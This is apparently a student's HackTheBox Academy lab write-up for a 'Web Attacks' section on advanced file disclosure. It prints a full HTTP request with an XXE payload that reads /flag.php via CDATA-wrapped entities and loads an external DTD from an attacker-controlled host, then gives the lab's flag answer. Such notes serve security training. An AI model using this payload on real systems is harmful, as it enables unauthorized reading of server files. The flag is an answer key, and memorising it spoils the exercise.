

# Section 15: Advanced File Disclosure

Module: 23. Web Attacks

---

## Questions & Answers

### 1. Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').

Context:
- Use the CDATA method:
```bash
POST /submitDetails.php HTTP/1.1
Host: 10.129.234.170
Content-Length: 326
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.234.170
Referer: http://10.129.234.170/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///flag.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://10.10.14.37:8000/xxe.dtd">
  %xxe;
]>
<root>
<email>&joined;</email>
  <tel></tel>
  <message>test query</message>
</root>
```


**Answer:** `HTB{3rr0r5_c4n_l34k_d474}`

---

[Back to Module Index](./README.md)
